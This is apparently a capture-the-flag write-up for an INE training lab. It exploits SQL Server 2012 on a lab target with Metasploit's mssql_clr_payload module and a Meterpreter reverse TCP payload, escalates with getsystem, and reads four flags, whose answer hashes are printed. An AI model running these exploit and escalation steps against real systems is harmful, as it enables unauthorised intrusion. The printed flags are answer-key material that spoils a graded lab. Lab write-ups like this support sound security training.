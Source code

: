 ### Completing Skill Check Labs

Skill Check Labs are interactive, hands-on exercises designed to validate the knowledge and skills you’ve gained in this course through real-world scenarios. Each lab presents practical tasks that require you to apply what you’ve learned. Unlike other INE labs, solutions are not provided, challenging you to demonstrate your understanding and problem-solving abilities. Your performance is graded, allowing you to track progress and measure skill growth over time.

# Lab Environment

In this lab environment, you will have GUI access to a Kali machine. The target machine will be accessible at **target.ine.local**.

**Objective:** Use Metasploit and manual investigation techniques to capture the following flags:

- **Flag 1:** Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
- **Flag 2:** Locate the second flag within the Windows configuration folder.
- **Flag 3:** The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.
- **Flag 4:** Investigate the Administrator directory to find the fourth flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- mssql

&nbsp;

![89e186484d4b897ea7f255df00c32570.png](../../../_resources/89e186484d4b897ea7f255df00c32570.png)

**Flag 1: Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.**

As always, lets find the target IP

![9fb901c33dc9348e2fdd03eeda9de3ea.png](../../../_resources/9fb901c33dc9348e2fdd03eeda9de3ea.png)

nmap -sC -sV target.ine.local

This command performs a service and version scan (`-sC -sV`)

![9dfd837c9bae4ef8d84ded4ee3429a19.png](../../../_resources/9dfd837c9bae4ef8d84ded4ee3429a19.png)

Now that we know **MSSQL Server** is running on **port 1433**, and the version is **SQL Server 2012 (11.00.6020.00; SP3)**, lets search for an exploit based on this version.

Start Metasploit by typing: `msfconsole`. Once inside Metasploit, search for available exploits related to **MSSQL 2012** using `search MSSQL 2012`.

![c543da2d63709feaaa13d0d8dc85a84d.png](../../../_resources/c543da2d63709feaaa13d0d8dc85a84d.png)

![17321b95d1747ef2a5484daaa92030ae.png](../../../_resources/17321b95d1747ef2a5484daaa92030ae.png)

At the top, we can see the relevant exploit. To select it, use the following command: use 0 or

use exploit/windows/mssql/mssql_clr_payload

![d30d0c151c2c9a6070d0dedbb943f1a4.png](../../../_resources/d30d0c151c2c9a6070d0dedbb943f1a4.png)

We can also get detailed information about this module by using the `info` command. The description confirms that this exploit has been tested on **SQL Server 2012**, so it is suitable for our target.

show options

![558c4189e0a88d5ded2e792a3673e07a.png](../../../_resources/558c4189e0a88d5ded2e792a3673e07a.png)

Now, we can proceed with configuring the required options before executing the exploit..We need to specified RHOST because it is required.

set RHOSTS target.ine.local

![7507f30c28a5109f13db2306c429c5c4.png](../../../_resources/7507f30c28a5109f13db2306c429c5c4.png)

Run the exploit by typing: run or exploit

Press enter or click to view image in full size

![ed836a1b60597663f8f0eebeefc33ecf.png](../../../_resources/ed836a1b60597663f8f0eebeefc33ecf.png)

Since the exploit supports **x86** architecture, but we are targeting a **64-bit** system, we need to set a compatible payload.

set PAYLOAD windows/x64/meterpreter/reverse_tcp

![f96f75725389b04f1eb4bec02abc6d01.png](../../../_resources/f96f75725389b04f1eb4bec02abc6d01.png)

Now that we have a successful **Meterpreter** session and you can check some information

![5027c7f6511bac19218505077a8d035c.png](../../../_resources/5027c7f6511bac19218505077a8d035c.png)

Type the following command shell to create a session

This will drop us into a regular command shell on the target machine.

![b4444b763bf4061da90bd1dd6ddba7c9.png](../../../_resources/b4444b763bf4061da90bd1dd6ddba7c9.png)

To find the first flag, navigate to the **C** drive by typing: `cd C:\` .

List the contents of the directory to find the file that contains the flag: `dir`

![2fc0d00687971dfb87937a4ca58f0429.png](../../../_resources/2fc0d00687971dfb87937a4ca58f0429.png)

Now that we’ve located the flag, we can use the type command to read its content.

![c62f375c1a18fa3688e778003fefd8dd.png](../../../_resources/c62f375c1a18fa3688e778003fefd8dd.png)

Answer: 1be3a92994994744be332aab8417450f

**Flag 2: Locate the second flag within the Windows configuration folder.**

For the second flag, we want to check the **Windows configuration folder**, which is usually found in the `System32` directory. To navigate to it, type the following command: `cd Windows\System32`

![1a8a24760e6fe1786bf083a8d29f32cc.png](../../../_resources/1a8a24760e6fe1786bf083a8d29f32cc.png)

or you can navigate manually

![fb8f815df69897a22a092461239946ee.png](../../../_resources/fb8f815df69897a22a092461239946ee.png)

![02f1d9ec755ceea6fc860b5c9332f778.png](../../../_resources/02f1d9ec755ceea6fc860b5c9332f778.png)

To list only the directories in the `System32` folder, use the following command: `dir /a:d` . This will filter the results and show only the directories.

![9c57627c3ca220abd29f2cc54ba11534.png](../../../_resources/9c57627c3ca220abd29f2cc54ba11534.png)

Now that we can see the **config** folder, navigate into it using the `cd` command.cd

![fc9927823f3466226b0d515522164629.png](../../../_resources/fc9927823f3466226b0d515522164629.png)

We don’t have access to view the contents. To check this, we need to first review our privileges. Let’s get back to our Meterpreter session by using **Ctrl + C**. Then, type `getprivs` to view the privileges that the current user has.

![5b33695b7121371d914193a730a2da38.png](../../../_resources/5b33695b7121371d914193a730a2da38.png)

These privs are for the user. We can use `getsystem` to elevate the privileges because if `SeImpersonatePrivilege` is present, `getsystem` is likely to succeed using Named Pipe Impersonation.

![9222596dbbd0c2c61045a008bd58d9f2.png](../../../_resources/9222596dbbd0c2c61045a008bd58d9f2.png)

We have elevated our privileges. Now, we can use the `shell` command again to get the shell and continue searching for the second flag.

![ba12525d073cc0b930783b5eb795bd58.png](../../../_resources/ba12525d073cc0b930783b5eb795bd58.png)

Lets first check Configuration directory

![3d7ad324ef23d4297dfa9607c96e1548.png](../../../_resources/3d7ad324ef23d4297dfa9607c96e1548.png)

nothing is found and we can check config directory

We have successfully entered the **config** directory. Type `dir` to list the contents.cd

![50a797c7d4ffc6b19132741fe192265e.png](../../../_resources/50a797c7d4ffc6b19132741fe192265e.png)

We have found the second flag. To read its contents, use the command `type flag2.txt`.

![333f3dcf3e3952b30700f6c5cc55c0fd.png](../../../_resources/333f3dcf3e3952b30700f6c5cc55c0fd.png)

Answer: 6d155803a67e46ce8b9dcffef496d122

**Flag 3: The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.**

The question states that the third flag is also hidden within the **system** directory, but we don’t know its exact location. However, we know that the flag files end with `.txt`. To search for those files, use the following command: dir C:\\Windows\\System32\\\*.txt /s /b

This command will search for all `.txt` files within the **System32** directory and its subdirectories.

![c18d874992137a9fe1dede1d30b16289.png](../../../_resources/c18d874992137a9fe1dede1d30b16289.png)

We see a file named **EscalatePrivilageToGetThisFlag.txt**. To read its contents, type the following command:

type C:\\Windows\\System32\\drivers\\etc\\EscaltePrivilageToGetThisFlag.txt

![9588b8ce733e01fb8ddc56b1539f909b.png](../../../_resources/9588b8ce733e01fb8ddc56b1539f909b.png)

Answer: 15e39928a9b34c49b36cbc1872e15ec6

**Flag 4: Investigate the Administrator directory to find the fourth flag.**

Since we have already elevated our privileges, let’s navigate to the **Administrator** directory to find the fourth flag.

You can navigate to **Administrator** directory with cd C:\\Users\\Administrator

![4f3e9a99676eb8db328dcc8efee0828e.png](../../../_resources/4f3e9a99676eb8db328dcc8efee0828e.png)

or Manually

![6510dcdb0b708bd5dc714ab40a25f932.png](../../../_resources/6510dcdb0b708bd5dc714ab40a25f932.png)

![e2c5a61eda24e12fe4d689f92effc742.png](../../../_resources/e2c5a61eda24e12fe4d689f92effc742.png)

To list the contents, type `dir`. Let's navigate to the **Desktop** directory.

![1d393885cb1706fd0c08dfe426b80347.png](../../../_resources/1d393885cb1706fd0c08dfe426b80347.png)

![d8a5da61dc34a8e4bc7bef3aea0ba52a.png](../../../_resources/d8a5da61dc34a8e4bc7bef3aea0ba52a.png)

And here we have found our last flag, which is:

![607f1608c988f069371b4d48297b31a6.png](../../../_resources/607f1608c988f069371b4d48297b31a6.png)

Answer: c8bd568633a24d87967c361d062fd047

![f276690e56807b353e602532bca564c7.png](../../../_resources/f276690e56807b353e602532bca564c7.png)